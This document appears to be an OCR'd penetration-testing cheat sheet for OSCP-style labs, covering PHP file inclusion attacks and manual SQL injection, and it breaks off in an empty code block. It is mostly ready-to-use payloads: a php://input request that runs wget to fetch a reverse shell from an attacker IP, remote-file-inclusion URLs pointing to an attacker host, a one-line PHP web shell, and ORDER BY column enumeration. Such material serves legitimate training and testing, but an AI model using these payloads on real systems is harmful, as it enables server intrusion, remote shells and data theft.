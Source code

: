 ```
Warning: include(): Unable to find the wrapper "expect" ...
```
### php://input
- Your payload is sent in a POST request body.  So, usage of Burp / ZAP is best for this exploit.
- Usage of wget / curl to download a PHP script to the target is probably the easiest method.
1. Modify the URL in the POST Request Header to include the input function.
```
...?[variable/page]=php://input
```
2. Input the PHP command in the body of the POST Request.
```
<? system('wget http://[attacker IP]/[perl reverse shell script].php -O [target file location like /var/www/shell.php');?>
```
3. After upload of the script to the box, execute the reverse shell by simply navigating to the uploaded file location.
```
http://[target IP]/[uploaded file location]
```
### .php?file=remote location (ippsec=Poison)
1. Create a reverse shell through a python HTTP server on port 80.
2. Attempt to read a file hosted on the attacker box through the URL.
```
...[file].php?file=http://[attacker IP]/[remote file].[extension]
```
## Identify any PHP 'include' Functions
- The 'include()' function in PHP code is used to open files based on user input / variables.
- This function is commonly used insecurely in that if input is not sanitized appropriately, a user can force the web browser to automatically execute any PHP code that they point the web browser to on the target box.
- If we can upload a PHP reverse shell to any location on the target box, we can abuse the 'include()' function LFI to execute the reverse shell back to our attacker machine.
  - A simple PHP command injection file that we can create allows us to input whatever command we want into an HTTP request to have it executed as long as another part of the HTTP request is navigating to this PHP file on the web server box and abusing the 'include' functionality.
  ```
  <?php echo system ($_REQUEST['neogeo']); ?>
  ```
  ```
  GET /?neogeo=[cmd]
  ```
  - A reliable PHP reverse shell can be found here [PHP Reverse Shell](https://github.com/neogeo56/OSCP/blob/master/Shells/php-reverse-shell.php).  Note that you have to adjust the IP and port variables in the shell before executing.
  
# Manual SQL Injection Testing
- Syntax varies between DB types - cheat sheets available here: http://pentestmonkey.net/category/cheat-sheet/sql-injection 
1. Identify areas in the application that could be inputs for SQLi in the URL (id=1). 
2. Proxy through ZAP to try [SQLi Test Payloads](https://github.com/neogeo56/OSCP/blob/master/Web/SQLi_Tests_Plaintext) to see instances where the payload doesn't result in an error on the page (the website is processing the SQLi payload correctly to result in TRUE condition). 
3. Identify the number of columns in the current table by adding an additional value for each request (1 then 1,2 then 1,2,3).
```
.... ORDER BY 1,2,3,4,5,6.... 
```
4. Once you get to a number that results in an error on the page, the total number of columns is less than the number that resulted in the error (if it errored out on 7, then there are 6 columns in the current table).
5. Identify which columns show information on the screen. 
```
```